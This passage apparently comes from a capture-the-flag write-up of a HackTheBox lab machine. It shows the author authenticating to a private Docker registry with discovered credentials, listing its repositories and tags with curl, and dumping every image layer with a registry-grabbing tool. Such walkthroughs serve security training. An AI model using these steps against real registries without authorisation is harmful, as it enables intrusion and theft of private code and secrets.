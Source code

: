 ```

oxdf@hacky$ curl -k https://magicgardens.htb:5000/v2/
{"errors":[{"code":"UNAUTHORIZED","message":"authentication required","detail":null}]}
oxdf@hacky$ curl -k https://magicgardens.htb:5000/v2/ -u AlexMiles:diamonds
{}

```

It has a single repository:

```

oxdf@hacky$ curl -k https://magicgardens.htb:5000/v2/_catalog -u AlexMiles:diamonds
{"repositories":["magicgardens.htb"]}

```

There’s one tag for that image:

```

oxdf@hacky$ curl -k https://magicgardens.htb:5000/v2/magicgardens.htb/tags/list -u AlexMiles:diamonds
{"name":"magicgardens.htb","tags":["1.3"]}

```

#### Get Container

From here, I can continue to enumerate and collect blobs using `curl`, but that is very manual and not interesting. I could also set up the TLS certificate authorities to download the image with `docker` itself (as I showed in [RegistryTwo](/2024/02/03/htb-registrytwo.html#get-image---via-docker)). I’ll use [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber) to download the layers of the image:

```

oxdf@hacky$ python /opt/DockerRegistryGrabber/drg.py https://magicgardens.htb --dump magicgardens.htb -U AlexMiles -P diamonds
[+] BlobSum found 32
[+] Dumping magicgardens.htb
    [+] Downloading : d3a3443a740ae9a727dbd8868b751b492da27507f3cbbe0965982e65c436b8c0
    [+] Downloading : 2ed799371a1863449219ad8510767e894da4c1364f94701e7a26cc983aaf4ca6
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : b0c11cc482abe59dbeea1133c92720f7a3feca9c837d75fd76936b1c6243938c
    [+] Downloading : 748da8c1b87e668267b90ea305e2671b22d046dcfeb189152bf590d594c3b3fc
    [+] Downloading : 81771b31efb313fb18dae7d8ca3a93c8c4554aa09239e09d61bbbc7ed58d4515
    [+] Downloading : 35b21a215463f8130302987a1954d01a8346cdd82c861d57eeb3cfb94d6511a8
    [+] Downloading : 437853d7b910e50d0a0a43b077da00948a21289a32e6ce082eb4d44593768eb1
    [+] Downloading : f9afd820562f8d93873f4dfed53f9065b928c552cf920e52e804177eff8b2c82
    [+] Downloading : d66316738a2760996cb59c8eb2b28c8fa10a73ce1d98fb75fda66071a1c659d6
    [+] Downloading : fedbb0514db0150f2376b0f778e5f304c302b53619b96a08824c50da7e3e97ea
    [+] Downloading : 480311b89e2d843d87e76ea44ffbb212643ba89c1e147f0d0ff800b5fe8964fb
    [+] Downloading : 02cea9e48b60ccaf6476be25bac7b982d97ef0ed66baeb8b0cffad643ece37d5
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 8999ec22cbc0ab31d0e3471d591538ff6b2b4c3bbace9c2a97e6c68844382a78
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 470924304c244ba833543bb487c73e232fd34623cdbfa51d30eab30ce802a10d
    [+] Downloading : 4bc8eb4a36a30acad7a56cf0b58b279b14fce7dd6623717f32896ea748774a59
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 9c94b131279a02de1f5c2eb72e9cda9830b128840470843e0761a45d7bebbefe
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
```